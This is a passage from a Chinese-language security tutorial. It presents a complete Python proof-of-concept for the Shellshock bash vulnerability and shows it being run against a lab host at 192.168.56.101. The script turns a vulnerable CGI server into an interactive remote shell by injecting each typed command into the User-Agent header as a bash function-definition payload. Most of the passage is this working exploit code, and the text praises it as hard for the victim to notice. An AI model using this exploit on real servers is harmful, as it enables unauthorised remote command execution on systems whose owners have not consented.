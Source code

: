 下面这段Python写的Poc的代码非常的酷(屌哒哒),用户根本感觉不到发生了什么事情.
这个Poc执行后就和系统的命令终端一样,不过这个Poc它的目的却与系统的不同.这个Poc会修改浏览器的User-Agent
信息,然后不停的向攻击主机发送一个恶意的指令(这里是执行某个特定的命令).

下面这段代码封装了一个无限循环,通过raw_input获取用户输入的终止标记，最后提交请求,从下面的这段代码你可以看到
如何去完成一个HTTP请求以及如何修改User-Agent的内容：

```
#!/usr/bin/python
import sys, urllib2    #导入需要使用的模块
 
if len(sys.argv) != 2:    # 检查输入命令的格式是否正确 "<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)
 
URL=sys.argv[1]        # 把测试的URL输出显示出来
print "[+] Attempting Shell_Shock - Make sure to type full path"
 
while True:        # 通过raw_input来获取用户输入的值,如果是"~$"就停止执行 
  command=raw_input("~$ ")
  opener=urllib2.build_opener()        # 修改默认的请求头部,把修改后的User-Agent包含进去
  opener.addheaders=[('User-agent', '() { foo;}; echo Content-Type: text/plain ; echo ' /bin/bash -c "'+command+'"')]
  try:                    # 使用Try/Except 进行错误处理
    response=opener.open(URL)    #提交请求并且显示响应结果
    for line in response.readlines():
      print line.strip()
  except Exception as e: print e
```
下面的图片是这个脚本执行后的截图,正在测试ip地址为http://192.168.56.101
的系统,你可以很清晰的看到执行之后会生成一个和真实命令终端几乎是一样的．
大家其实可以看到这个脚本只是对测试系统发送了一个HTTP请求.其他的什么也没有
做.不过最后一张图展示了具体的细节部分:

![shell1](img/0x131.png)

![shell2](img/0x132.png)
